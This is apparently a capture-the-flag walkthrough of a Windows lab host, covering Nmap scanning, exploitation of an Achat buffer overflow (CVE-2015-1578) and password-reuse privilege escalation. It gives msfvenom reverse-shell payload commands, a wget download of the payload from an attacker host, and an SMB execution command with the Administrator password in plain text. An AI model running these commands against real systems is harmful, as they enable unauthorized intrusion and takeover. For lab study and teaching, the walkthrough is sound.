









## 1. Reconnaissance

### 1.1 Nmap

An Nmap scan was run against the target, identifying a Windows host. No standard web service was present, but a service was found running on a non-standard port.



This screenshot is from the top 1000 ports, the non-standard port was found scanning all ports with the `-p-` flag.

### 1.2 Service Identification

The non-standard port was running a chat application called **Achat**.



---

## 2. Initial Foothold — Exploiting Achat

### 2.1 Identifying a Vulnerability

A known vulnerability was identified for the Achat service.



A more reliable public exploit for the same vulnerability was located on GitHub: [<u>CVE-2015-1578</u>](https://github.com/Zeppperoni/CVE-2015-1578).

### 2.2 Crafting a Payload

Before running the script against the target, you must generate a reverse shell executable with the msfvenom tool.

```bash
msfvenom -a x86 --platform Windows lhost=10.10.14.18 lport=4444 -p windows/shell_reverse_tcp -e x86/unicode_mixed -b 
'\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b
\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8
\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5
\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2
\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

This command will spit out a bunch of python lines to construct a payload in a script. You copy all this output and paste it into the python script file from the GitHub repo linked above, replacing line 18 `buf = ""`.

After copying in your payload, the last step is changing the target IP in the python script to the machine you're attacking.



### 2.3 Gaining a Shell

After moving in the payload and changing the target IP, the exploit was run against the target, returning a shell.



---

## 3. Privilege Escalation

### 3.1 Enumeration

`winPEAS` was uploaded and run to identify privilege escalation opportunities. The current user had access to the `C:\Users\Administrator` folder, which was curious. But it did not have permission to read `root.txt` directly, confirming that further escalation was required.



Review of the winPEAS output identified a credential. 



It turns out that the local Administrator account was using the same password as the `Alfred` account.



### 3.2 Executing a reverse shell as Administrator via SMB

With `runas` failing to work as expected for switching context locally, I switched to a reverse shell method.

#### 3.2.1 Create a revshell payload 

```bash
msfvenom -p windows/x64/shell_reverse_tcp -a x64 LHOST=10.10.14.18 LPORT=9001 -f exe -o rev9001.exe
```

#### 3.2.2 Serve the payload with a python server

```bash
python -m http.server 80
```

#### 3.2.3 Download the executable on the target

```powershell
wget http://10.10.14.18/rev9001.exe
```

#### 3.2.4 Execute the reverse shell as Administrator

We know that we have the credentials for admin, but because `wmiexec`, `psexec`, and `WinRM` are not working on the machine, we have to use `SMB` to execute commands as Administrator. We can send the command to run our newly uploaded executable and it will run with Administrator privileges, giving us a root shell.

```bash
# start our listener
penelope -p 9001

# call rev shell via SMB
nxc smb 10.129.40.209 -u 'Administrator' -p 'Welcome1!' -x '/temp/rev9001.exe'
```



---

## 4. Summary

| Stage | Technique |
|---|---|
| Recon | Nmap identified a Windows host with no standard web service, but a non-standard port running Achat |
| Initial Access | CVE-2015-1578 (Achat buffer overflow) exploited for a shell as a low-privileged user |
| Enumeration | winPEAS revealed a reused default password also valid for the local Administrator account |
| Privilege Escalation | Administrator credential used to upload and execute a reverse shell payload via SMB → SYSTEM/Administrator access |

### Key Takeaways
- Legacy, unmaintained chat/communication software left running on non-standard ports remains an easy target for known public exploits.
- Reused or default credentials surfaced during routine enumeration can provide a direct path to privileged access, even when other escalation routes (e.g., `runas`) are unavailable.
- SMB-based payload execution is a reliable fallback for leveraging recovered credentials when local context-switching tools are blocked or non-functional.
